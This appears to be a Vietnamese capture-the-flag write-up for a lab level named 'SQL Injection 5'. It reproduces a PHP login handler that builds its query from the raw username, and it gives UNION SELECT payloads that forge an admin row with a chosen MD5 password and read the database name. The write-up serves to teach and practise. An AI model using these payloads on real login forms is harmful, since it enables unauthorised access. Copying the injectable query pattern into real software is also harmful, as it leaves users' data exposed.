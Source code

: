 # SQL Injection 5
# Mục tiêu: Login as admin
# Phân tích
```
<?php
function loginHandler($username, $password)
{
	try {
		include("db.php");
		$database = make_connection("hashed_db");

		$sql = "SELECT username, password FROM users WHERE username='$username'";
		echo $sql; // Debugging: Show the SQL query
		$query = $database->query($sql);
		$row = $query->fetch_assoc(); // Get the first row

		if ($row === NULL)
			return "Username not found"; // No result

		$login_user = $row["username"];
		$login_password = $row["password"];

		if ($login_password !== md5($password))
			return "Wrong username or password";

		if ($login_user === "admin")
			return "Wow you can log in as admin, here is your flag CBJS{FAKE_FLAG_FAKE_FLAG}, but how about <a href='level6.php'>THIS LEVEL</a>!";
		else
			return "You log in as $login_user, but then what? You are not an admin";
	} catch (mysqli_sql_exception $e) {
		return $e->getMessage();
	}
}

if (isset($_POST["username"]) && isset($_POST["password"])) {
	$username = $_POST["username"];
	$password = $_POST["password"];
	$message = loginHandler($username, $password);
}

include("static/html/login.html");
```
- Ở đây khi nhập user và password
- `$username = $_POST["username"];` và `$sql = "SELECT username, password FROM users WHERE username='$username'";`
- `$username` được sử dụng trực tiếp trong câu sql.
- Lấy kết quả
```
$login_user = $row["username"];
$login_password = $row["password"];
```
- So sánh pass người dùng nhập và pass được lưu trong db bằng MD5.
```
if ($login_password !== md5($password))
    return "Wrong username or password";
```
# Khai thac
- Có cách nào thao túng được pass không
- Sử dụng `UNION SELECT`
```
SELECT username, password FROM users WHERE username='abc' UNION SELECT 'admin',MD5('huy') -- '
```
Thành công.  
✅ Vì sao nó hoạt động?

1. `UNION` hợp lệ:

    Cả 2 phần `SELECT` đều trả về 2 cột cùng kiểu dữ liệu (`username`, `password` dạng chuỗi).

2. `'admin'` và `MD5('huy')` là hằng số:

    `'admin'` là chuỗi (VARCHAR)

    `MD5('huy')` là chuỗi băm hợp lệ: ae9d45875e514d8fc9f1b1bc9c37fe2b

3. Phần `-- '` là comment:

    Cắt phần đuôi của truy vấn gốc (nếu có ' hoặc các đoạn dư phía sau).

```
SELECT username, password FROM users WHERE username='abc' UNION SELECT username,MD5('huy123') FROM users WHERE username='admin'
```
✅ Tại sao nó chạy được?
1. Hai phần SELECT có cùng số cột: Cả hai đều chọn `2 cột`

2. Kiểu dữ liệu tương thích: Cột `password` là chuỗi, `MD5('huy123')` cũng là chuỗi.

3. UNION ghép kết quả lại: Nếu truy vấn gốc không trả về gì (username='abc' không tồn tại), thì kết quả `UNION` vẫn trả về dữ liệu từ truy vấn sau.

4. Dùng để đọc dữ liệu, không phải ghi dữ liệu: Truy vấn này không thay đổi database, mà chỉ lấy dữ liệu theo cách kẻ tấn công muốn.

# Khi sử dụng `UNION SELECT`
`UNION SELECT 'admin',MD5('huy') -- '` vì có `'admin'` thì nó là chuỗi. Khi không có `'` thì nó là cột.

`UNION SELECT NULL,database() --` playload check database hiện tại
